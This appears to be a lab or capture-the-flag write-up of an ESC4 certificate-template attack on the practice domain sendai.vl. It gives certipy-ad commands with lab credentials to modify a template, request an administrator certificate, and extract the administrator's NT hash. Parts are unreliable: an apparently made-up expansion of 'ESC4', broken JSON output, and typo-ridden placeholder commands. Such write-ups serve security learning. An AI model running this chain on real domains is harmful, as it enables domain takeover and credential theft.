




## Entry
ESC4 (Enterprise Security Configuration 4) is a notable security vulnerability category within Active Directory environments that relates to improper delegation and misconfiguration of administrative privileges. This flaw arises when certain high-privilege accounts or groups are granted excessive or unintended access rights—often via Access Control Lists (ACLs)—which can be exploited by attackers to escalate privileges, move laterally, or compromise domain security.

## Enumerate with Cobalt Strike
Additionally, the user has permissions such as Owner, WriteOwnerPrincipals, WriteDaclPrincipals, and WritePropertyPrincipals for the template. These permissions allow users or groups to modify and enroll for certificates based on that template. When creating a certificate template in ADCS, we can specify who has the right to enroll for certificates using that template.


## Enumerate with Linux Abuse

We can also find with **certipy-ad**

Command to execute:
```sh
certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.83.239 -vulnerable -enabled 
```
and it will give
```sh
{
"Certificate Authorities": {
    "0": {
    "CA Name": "sendai-DC-CA",
"Certificate Templates": {
    "0": {
    "Template Name": "SendaiComputer",
    "Display Name": "SendaiComputer",
    "Certificate Authorities": [
        "sendai-DC-CA"
    },
    "[!] Vulnerabilities": {
        "ESC4": "'SENDAI.VL\\\\ca-operators' has dangerous permissions"

```
But for understanding more clearly i recommend to use gpo.json to upload Bloodhound and analyze with our user.

Command to execute:
```sh
certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.83.239 -vulnerable -enabled -old-bloodhound
```
upload `20250518234359_gpos.json` to BloodHound.



## Attack

Before start attack we have to need some datas which we dump before CS and certipy-ad

| Prerequisite                   | Description / Value                                       |
| ------------------------------ | --------------------------------------------------------- |
| **Username**                   | clifford.davey                                            |
| **Domain**                     | sendai.vl                                                 |
| **Password**                   | RFmoB2WplgE\_3p                                           |
| **Certificate Template**       | SendaiComputer                                            |
| **Certificate Authority (CA)** | sendai-DC-CA                                              |
| **User Principal Name (UPN)**  | administrator@sendai.vl |

Commands to execute:
```sh
certipy-ad template -username <useranme>@s<domain> -password <password> -template <templatename> -save-old

certipy-ad req -username <useranme>@s<domain> -password <password> -ca <ca-name> -target <domain> -template <templatename> -upn administrator@<domain>
```

### ➜ Explanation of the Command

Command to execute:
```sh
certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```



| **Command Part**                     | **Description**                                                                                 |
| ------------------------------------ | ----------------------------------------------------------------------------------------------- |
| `certipy-ad template`                | Certipy subcommand to interact with or modify AD certificate templates.                         |
| `-username clifford.davey@sendai.vl` | Specifies the username to authenticate with Active Directory.                                   |
| `-password RFmoB2WplgE_3p`           | Password for the given user account.                                                            |
| `-template SendaiComputer`           | The certificate template name you want to modify or query.                                      |
| `-save-old`                          | Saves the current configuration of the specified template to a JSON file before making changes. |

**Why use -save-old?**
>The -save-old option is a safety measure. Before you update or modify a certificate template, it saves the existing configuration so you have a backup of the original state.
{: .prompt-tip }

Now we can request administrator ticket.

Command to execute:
```sh
certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl
```


| **Command Part**                     | **Description**                                                                |
| ------------------------------------ | ------------------------------------------------------------------------------ |
| `certipy-ad req`                     | Certipy subcommand to request a certificate from a Certificate Authority (CA). |
| `-username clifford.davey@sendai.vl` | Username for authentication to Active Directory.                               |
| `-password RFmoB2WplgE_3p`           | Password for the specified user.                                               |
| `-ca sendai-DC-CA`                   | Specifies the CA (Certificate Authority) to request the certificate from.      |
| `-target sendai.vl`                  | The target domain or hostname for the certificate request.                     |
| `-template SendaiComputer`           | Certificate template to use for the request.                                   |
| `-upn administrator@sendai.vl`       | Specifies the User Principal Name (UPN) for the certificate’s subject.         |

> If you get a timeout error, just try running the command again.
{: .prompt-tip}

Now lets auth it.

```sh
➜  sendai certipy-ad auth -pfx administrator.pfx                                                               
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Nice!!
